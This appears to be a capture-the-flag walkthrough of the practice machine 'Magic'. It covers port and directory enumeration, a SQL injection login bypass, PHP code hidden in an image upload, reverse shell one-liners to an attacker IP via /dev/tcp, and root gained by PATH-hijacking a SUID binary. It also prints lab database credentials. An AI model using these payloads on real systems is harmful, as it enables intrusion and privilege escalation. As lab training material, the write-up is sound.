



# Magic
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.185 --min-rate 5000                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-28 17:53 BST
Nmap scan report for 10.10.10.185 (10.10.10.185)
Host is up (0.33s latency).
Not shown: 65510 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http


Nmap done: 1 IP address (1 host up) scanned in 49.95 seconds
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.185 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-28 18:01 BST
Nmap scan report for 10.10.10.185 (10.10.10.185)
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.45 seconds
```

- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.185
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.10.185/images/]
/login.php            (Status: 200) [Size: 4221]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 4051]
/assets               (Status: 301) [Size: 313] [--> http://10.10.10.185/assets/]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
```
## Foothold
- There's login page
  - Trying `' or 1=1-- -` works


- Trying to upload a `php` file results in error


- To bypass the filter, as the box name implies, we have play around with magic bytes
  - I'll download some image and add `php` code using any text editor



- Then I'll upload it using the upload page
  - Make sure to have a proxy on to modify the request later
  - If we upload the image with `jpg` or any other image extensions, when we will open the image from the server, the backend will handle it as image
  - But if we add `.php.jpg` (could be `png` or other extension), the backend processes it differently
  - So we modify our extension from the `Burp`


- We successfully upload the "image" and we see backend is processing it as text file
  - But we don't see the execution
  - Could be lost within all this garbage
  - So I had to place the code below, after all the image junk
  - And we have our `rce`



- Let's get our reverse shell
  - I played around with different payloads
  - `bash+-c+"%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F10.10.16.4%2F6666 0>%261"` worked for me




## User
- `/var/www/Magic`
```
www-data@ubuntu:/var/www/Magic/images/uploads$ ls -lha /var/www/Magic/
total 52K
drwxr-xr-x 4 www-data www-data 4.0K Jul 12  2021 .
drwxr-xr-x 4 root     root     4.0K Jul  6  2021 ..
-rwx---r-x 1 www-data www-data  162 Oct 18  2019 .htaccess
drwxrwxr-x 6 www-data www-data 4.0K Jul  6  2021 assets
-rw-r--r-- 1 www-data www-data  881 Oct 16  2019 db.php5
drwxr-xr-x 4 www-data www-data 4.0K Jul  6  2021 images
-rw-rw-r-- 1 www-data www-data 4.5K Oct 22  2019 index.php
-rw-r--r-- 1 www-data www-data 5.5K Oct 22  2019 login.php
-rw-r--r-- 1 www-data www-data   72 Oct 18  2019 logout.php
-rw-r--r-- 1 www-data www-data 4.5K Oct 22  2019 upload.php

```

- We have creds inside `db.php5` file
```
www-data@ubuntu:/var/www/Magic/images/uploads$ cat /var/www/Magic/db.php5   
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}

```

- We can't `ssh`, since it requires public key
  - `su` don't work either
  - Since it's a `db` creds, let's dump the database
  - There is no `mysql` binary, but we have `mysqldump`
```
www-data@ubuntu:/var/www/Magic/images/uploads$ mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2023-10-28 11:12:42

```

- We have found a password `Th3s3usW4sK1ng`, which works for `su`
```
www-data@ubuntu:/var/www/Magic/images/uploads$ su - theseus
Password: 
theseus@ubuntu:~$
```
## Root
- `linpeas` shows unknown `SUID` binary
```
<SNIP>
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary!)
<SNIP>
```

- It returns system information
  - Let's `ltrace` it
```
theseus@ubuntu:/tmp$ ltrace /bin/sysinfo
<SNIP>
popen("lshw -short", "r")                                                                                                                         = 0x557cb5517280
fgets(WARNING: you should run this program as super-user.
<SNIP>
popen("fdisk -l", "r")                                                                                                                            = 0x557cb5517280
<SNIP>
popen("free -h", "r")                                                                                                                             = 0x557cb5517280
```

- It doesn't use full path
  - We create `lshw` script and make it executable
  - Then we modify `PATH` variable and add the directory where we placed `lshw`
```
theseus@ubuntu:/dev/shm$ cat lshw 
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.4/7777 0>&1
theseus@ubuntu:/dev/shm$ chmod +x lshw
theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:/dev/shm$ export PATH="$(pwd):$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:/dev/shm$ 
```

- Run the binary
  - It hangs
  - Check your listener, we should get our `root` shell
```
theseus@ubuntu:/dev/shm$ sysinfo
====================Hardware Info====================

```

